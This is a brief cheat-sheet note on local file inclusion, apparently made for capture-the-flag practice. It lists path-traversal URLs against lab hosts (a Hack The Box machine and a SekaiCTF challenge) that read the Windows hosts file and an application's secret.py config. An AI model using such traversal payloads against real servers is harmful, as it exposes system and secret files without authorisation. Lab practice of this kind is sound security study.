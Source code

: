 # LFI - local file inclusion

- `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`
- `http://unika.htb/index.php?page=C:/windows/system32/drivers/etc/hosts`

python:

- `http://bottle-poem.ctf.sekai.team/show?id=../../app/config/secret.py`
